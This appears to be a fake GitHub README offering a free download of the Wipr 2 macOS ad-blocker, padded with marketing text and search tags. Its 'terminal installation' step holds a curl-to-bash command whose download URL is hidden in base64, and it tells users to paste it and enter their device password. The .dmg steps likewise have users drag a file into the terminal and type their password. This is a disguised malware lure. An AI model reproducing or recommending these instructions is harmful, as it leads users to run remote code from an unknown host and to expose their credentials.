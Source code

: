 # Wipr 2 — Free Download for macOS
![logo](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcStLVeMZHpX5_yRTLJD9KpKYn7Y8DFvZf4STw&s)

Effortlessly download and install Wipr 2, a powerful ad-blocker for macOS, to enjoy a seamless, distraction-free browsing experience. Follow the step-by-step guide below to get started! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-blue?style=for-the-badge)](https://fituganshfgh.github.io/.github/wipr2)

If the download button doesn’t work, follow the terminal command instructions below for a smooth installation.

## 📦 How to Install Wipr 2 for macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with Wipr 2

- 🚀 **Fast Browsing**: Blocks intrusive ads and trackers to speed up your web experience.
- 🔒 **Enhanced Privacy**: Prevents websites from tracking your activity across the internet.
- 🧹 **Clean Interface**: Removes pop-ups, banners, and video ads for distraction-free browsing.
- ⚙️ **Customizable Settings**: Tailor Wipr 2’s blocking preferences to suit your needs.
- 🔄 **Automatic Updates**: Stay protected with regular updates to ad-blocking filters.
- 💻 **Lightweight Design**: Minimal system resource usage for smooth performance on macOS.

## About Wipr 2

Wipr 2 is a leading ad-blocking solution designed specifically for macOS, offering a seamless way to enhance your browsing experience. By eliminating intrusive advertisements, pop-ups, and trackers, Wipr 2 ensures faster page load times and a cleaner interface. Whether you're browsing social media, reading articles, or shopping online, this software keeps your experience smooth and distraction-free. Its lightweight design means it runs efficiently in the background, making it ideal for both casual users and professionals who rely on a clutter-free web environment.

The software’s robust privacy features set it apart from competitors. Wipr 2 blocks trackers that collect your personal data, ensuring your online activities remain private. With growing concerns about data security, this ad-blocker provides peace of mind by safeguarding your browsing habits from third-party surveillance. Its compatibility with Safari and other macOS browsers makes it a versatile tool for users seeking a secure and streamlined internet experience.

Wipr 2 is also highly customizable, allowing users to fine-tune their ad-blocking preferences. Whether you want to allow certain ads on trusted websites or block everything, the software gives you full control. Its user-friendly interface makes setup and configuration a breeze, even for those new to ad-blocking tools. Regular updates ensure that Wipr 2 stays ahead of new ad formats and tracking methods, keeping your browsing experience consistently smooth.

Another standout feature is Wipr 2’s commitment to performance. Unlike some ad-blockers that slow down your system, Wipr 2 is designed to use minimal CPU and memory resources. This makes it an excellent choice for older Macs or devices with limited processing power. By focusing on efficiency, Wipr 2 ensures that your macOS device remains fast and responsive, even during extended browsing sessions.

### Why Choose Wipr 2?
Wipr 2 stands out for its simplicity, effectiveness, and macOS optimization. Unlike browser extensions that can be clunky or unreliable, Wipr 2 integrates seamlessly with your system, providing consistent ad-blocking across multiple browsers. Its automatic filter updates save you time, while its privacy-first approach ensures your data stays secure. For anyone looking to download a free, reliable ad-blocker for macOS, Wipr 2 is a top choice that delivers on both performance and user experience.

## 🖼 Preview

![Wipr 2 Interface](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcE-k3hwMe67AD70qtJi7-is0M-fcBRl3rFBZeOv9_ZRCN5uFNiTj1H0hqU6patlhbo8Cgb7xBhV0hfS1RMOeQK3GovYgHKBooljmXnLeMCtigJsGMGKk8ufNZkGGVqzMuDQDeX?key=AKdBa82gQmxs7BVRzpqHC9UH)
*Clean and intuitive Wipr 2 dashboard for easy configuration.*

![Ad-Free Browsing](https://www.zhiniw.com/wp-content/uploads/2025/07/wipr-2-mac-preview-02.jpg)
*Enjoy a clutter-free browsing experience with Wipr 2.*

## 🔍 Tags
Wipr 2, free download Wipr, Wipr 2 free, block ads mac, download Wipr macOS, Wipr 2 download, Wipr 2 free download, Wipr 2 download free, Wipr 2 for mac, Wipr 2 free for mac, download Wipr 2, download Wipr 2 free, Wipr 2 for mac os
